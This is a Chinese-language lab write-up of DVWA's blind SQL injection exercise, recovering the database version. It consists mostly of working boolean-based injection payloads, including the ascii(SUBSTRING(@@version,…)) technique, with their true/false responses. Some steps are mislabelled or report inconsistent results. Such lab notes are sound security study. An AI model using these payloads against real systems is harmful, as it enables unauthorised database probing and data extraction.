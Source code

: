 # SQL Injection (Blind)

> Objective:
Find the version of the SQL database software through a blind SQL attack.
>

> Objective:
Find the version of the SQL database software through a blind SQL attack.
>

### 觀察
這關也是改用 POST
先透過上一關驗證一下 VERSION 語法

```sql
id=1 UNION select 1,VERSION(); &Submit=Submit
```
```sql
id=1 UNION SELECT 1,SUBSTRING((SELECT @@version),1,20); &Submit=Submit
```
```sql
SELECT 1,SUBSTRING((SELECT @@version),1,20);
```

```sql
SELECT SUBSTRING((SELECT @@version),1,20);
```

```sql
(SELECT SUBSTRING((SELECT @@version),1,20) like '10.1.26%');
```

```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,20)); &Submit=Submit
```

### 參考之前已經得知的版本

```jsx
10.1.26-MariaDB-0+de
```

false

```sql
1 AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.1.26%')
```

只能多嘗試，後來發現可能是單引號的問題，看起來是因為 POST data 的關係，payload 被視為字串，先換成 `=` 來測試

```sql
(SELECT SUBSTRING((SELECT @@version),1,1)) = 1
```

true (`User ID exists in the database.`)

```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,1)) = 1 &Submit=Submit
```

true (`User ID exists in the database.`)

```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,2)) = 10 &Submit=Submit
```

false

```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,2)) = 12 &Submit=Submit
```

...

理論上應該是可以猜出 DB 的本版

```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,3)) = 10.);&Submit=Submit
```

### 卡關 QQ

### 卡關 QQ

但如果再增加下去 10.x.x 的判斷會無效，崩潰

換個環境再測 db 是 `5.7.34` ，也是第二個小數點之後無法正常判斷，頂多只能判斷到 5.7

看提示說這關有使用 `mysql_real_escape_string()` ，會將 \x00, \n, \r, \, ', ", \x1a 跳脫

```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,5)) = 10.10&Submit=Submit
```

```sql
id=1 AND (SELECT @@version) like 10.1.26-MariaDB-0+de&Submit=Submit
```

```sql
id=1 AND SELECT (SELECT @@version)) = 5.7.34&Submit=Submit
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/ffffd1c6-c73a-4723-9dba-eda574016665/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220216%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220216T162046Z&X-Amz-Expires=86400&X-Amz-Signature=996d44a6b6eb9f6ff039d065ca28e6c15f2dae3bc3edbef07c9a1fb524da51da&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

---

# Update - February 21, 2022

```sql
SELECT 1, (SELECT (version())) <> 0;
```

```sql
id=1 AND (SELECT version() <> 0); &Submit=Submit
# User ID exists in the database
```

```sql
id=1 AND (SELECT version() = 5.7); &Submit=Submit
# User ID exists in the database
```

```sql
id=1 AND (SELECT version() = '5.7.34'); &Submit=Submit
# User ID is MISSING in the database
```

也是無法完整猜測

### Done

因此參考別人的 writeup 後才知道可以用 `ascii` 將字串轉換成數字，這樣就可以不用擔心單引號被過濾了，基本上這邊只要能轉換成數字型態就可以了

```sql
SELECT SUBSTRING((SELECT @@version),1,6)
# 5.7.34
```

判斷版本的第 1 個字元是否為 5

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),1,1)) = 53); &Submit=Submit
# User ID is MISSING in the database
```

SUBSTRING((SELECT @@version),2,1) 代表第2個字串的值

```sql
select SUBSTRING((SELECT @@version),2,1);
# .
```

判斷版本的第 2 個字元是否為 .

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),2,1)) = 46); &Submit=Submit
# User ID exists in the database
```

判斷版本的第 3 個字元是否為 7

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),3,1)) = 55); &Submit=Submit
# User ID exists in the database
```

判斷版本的第 4 個字元是否為 .

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),4,1)) = 46); &Submit=Submit
# User ID exists in the database
```

判斷版本的第 5 個字元是否為 3

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),5,1)) = 51); &Submit=Submit
# User ID exists in the database
```

判斷版本的第 6 個字元是否為 .

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),6,1)) = 46); &Submit=Submit
# User ID is MISSING in the database
```

判斷版本的第 6 個字元是否為 4

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),7,1)) = 52); &Submit=Submit
# User ID exists in the database
```

從上面嘗試的結果就可以推敲出版本

```
5.7.34
```

---
# Ref

- DVWA 通关指南：SQL Injection-Blind(SQL 盲注) - 乌漆WhiteMoon - 博客园
[https://www.cnblogs.com/linfangnan/p/13694057.html](https://www.cnblogs.com/linfangnan/p/13694057.html)

- SQL CAST and SQL CONVERT function overview
[https://www.sqlshack.com/overview-of-the-sql-cast-and-sql-convert-functions-in-sql-server/](https://www.sqlshack.com/overview-of-the-sql-cast-and-sql-convert-functions-in-sql-server/)
